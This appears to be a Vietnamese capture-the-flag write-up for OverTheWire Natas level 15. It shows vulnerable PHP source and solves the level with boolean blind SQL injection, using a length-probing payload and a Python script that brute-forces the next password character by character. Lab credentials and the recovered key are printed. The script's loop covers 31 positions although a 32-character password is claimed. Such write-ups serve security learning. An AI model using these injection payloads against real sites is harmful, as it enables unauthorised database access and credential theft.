


# Natas Level 15

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas15.natas.labs.overthewire.org**     
**Credential: natas15:*SdqIqBsFcz3yotlNYErZSZwblkm0lrvx***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    


2. Source code:
```PHP
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

-Bài này web chỉ trả về là ```user exitst``` hoặc ```user doesn't exits``` nhưng nó lại có SQLi ở table ```users```    
==>Boolean SQL injection.

-Đầu tiên check xem có user nào tên ```natas16``` tồn tại không ==> Có.

-Giờ ta sẽ append thêm statement ```AND``` và gán sau đó là 1 câu lệnh để tìm mật khẩu nữa, nếu đúng nó trả exits không thì not

-Trước hết cần xác định độ dài của password theo payload sau:

```bash
username=natas16" AND LENGTH(password)>1 -- a
#Thay 1 bằng các number khác cho tới khi tìm được độ dài chính xác
```

==>password length: 32 kí tự.



-Tiếp theo ta cần brute-force từng kí tự trong đó để lấy được password hoàn chỉnh, đầu tiên ta cần biết trang web sử dụng MySQL nên ta sẽ sử dụng ```SUBSTRING``` để trích xuất 1 kí tự từ password đồng thời gói tin chứa vulnarable là gói ```POST```:    

```python
import requests
import string

url = "http://natas15.natas.labs.overthewire.org/"
auth = ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx")

CHAR_SET = string.ascii_letters + string.digits
password = ""

for pos in range(1, 32): 
    for char in CHAR_SET:
        payload = f'natas16" AND BINARY SUBSTRING(password,{pos},1)="{char}"-- a'
        r = requests.post(url, auth=auth, data={"username": payload})
        if "This user exists." in r.text:
            password += char
            print(f"[+] {char} is true charector in {pos} of password")
            break
        else:
            print(f"[-] {char} is not true charector in {pos} of password")
        
print(password)
```

==>Ta sẽ lấy được password: ```hPkjKYviLQctEW33QmuXL6eDVfMW4sGo```

### **Note:** ở đoạn script trên có thêm ```BINARY``` trong sql query vì nãy khi mình để payload là:  ```natas16" AND SUBSTRING(password,{pos},1)="{char}"-- a``` các kí tự hoa và thường bị xem như nhau nên cần viết thêm ```BINARY``` để phân biệt chúng.

## 📌 Key: ```hPkjKYviLQctEW33QmuXL6eDVfMW4sGo```